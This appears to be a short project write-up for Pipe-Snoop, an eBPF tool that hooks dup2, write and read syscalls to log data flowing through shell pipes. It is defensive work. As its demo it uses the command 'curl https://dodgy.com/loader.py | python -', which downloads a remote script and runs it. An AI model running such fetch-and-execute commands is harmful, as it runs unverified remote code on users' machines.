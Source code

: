 
# Tracing the void
Now we know how `|` works, we can use eBPF to hook into the various syscalls, and see what is written and read. It will require a number of eBPF Programs linked together,
attached to a number of different syscalls:

## dup2
Firstly, monitor for processes using `dup2` to overwrite either their stdout or stdin fds with some other non-standard fd.
Keep track of the processes calling this, as from here until they either exit or call `dup2` again anything going to either stdout or stdin (whichever was dup'd) will be going thrugh a pipe.

## write
If a process we're tacking writes to stout/fd `1`, then it's writing to a pipe! We can use `bpf_probe_read_user` to read the data the program is sending, and send it off along with the Process PID and Program executable name to be logged.


## read
Similar to `write`, if a process we're tacking reads from stdin/fd `0`, it's reading from a pipe. If we trace the 'exit' of the syscall, that is
after the kernel has written the data into the buffer. We can now use `bpf_probe_read_user` before the program does, and send it off to be logged.


# End Result
The End result is this program: [Pipe-Snoop](https://github.com/pathtofile/bpf-pipesnoop).

It's a set of eBPF Loader and Programs to implement the above. If we build and run it as root, then run our original Python loader:
```
curl https://dodgy.com/loader.py | python -
```

We will see something like the following output:
```bash
...
Successfully started!
[*] curl[2860] wrote 37 bytes from piped stdout: 'print("I am a sneaky Python Loader")'
[*] python[2861] read 37 bytes from piped stdin: 'print("I am a sneaky Python Loader")'
```

Pipe-Snoop is a simple proof-of-concept - A more sophisticated program could also trace the `clone` calls, to match up the ends of the pipe
with each other. But it gives you an idea of the power of eBPF, especially as it makes it possible without running any crash-prone kernel code, and
without debugging/injecting/interacting with either program.

